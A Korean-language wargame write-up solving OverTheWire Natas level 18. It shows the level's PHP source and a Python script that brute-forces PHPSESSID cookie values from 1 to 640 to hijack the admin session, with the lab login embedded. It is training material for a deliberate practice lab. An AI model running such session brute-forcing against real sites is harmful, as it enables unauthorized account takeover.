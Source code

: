 ```yaml
---
title: Natas Level 18 풀이
date: 2024-04-23 01:53:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0423/natas18a.png
---
```

<br>
## 로그인
---
> Username: natas18
> <br> URL: <http://natas18.natas.labs.overthewire.org>

<br>
이번에는 username과 password를 입력하는 칸이 있다.<br>
소스코드를 보자.<br>
<br>
{% raw %}
```php
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>
```
{% endraw %}

<br>
<br>
<br>
## 풀이
---
<br>createID 함수에서 입력받은 user에 따라 640까지의 정수 중 랜덤으로 세션ID를 생성한다.<br>
<br>print_credentials() 함수에서
생성된 세션ID가 admin의 세션ID와 일치할 경우($_SESSION["admin"] 가 1인 경우),<br>
natas19의 패스워드가 출력되는 듯 하다.<br>


admin의 세션ID를 모르지만 640까지의 정수 중 하나일테니 자동화 프로그램을 써서 찾으면 된다.<br>


<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
 
def find_session_ids():
    url = 'http://natas18.natas.labs.overthewire.org/'
    auth = ('natas18', '8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq')
 
    for session_id in range(1, 641):
        cookies = {'PHPSESSID': str(session_id)}
        response = requests.get(url, auth=auth, cookies=cookies)
 
        if "You are an admin" in response.text:
            print(f"Admin session ID found: {session_id}")
            break
 
find_session_ids()
```


세션ID를 하나씩 날리다가 "You are an admin" 이라는 텍스트가 뜨는 경우의 세션ID를 출력하게 했다.<br>


admin의 세션ID값은 119였다.<br>
이걸로 쿠키 변조하면 natas19의 패스워드가 나온다.<br>
<br>![Desktop View](assets/img/0423/natas18b.png){: w="700" h="400" }<br>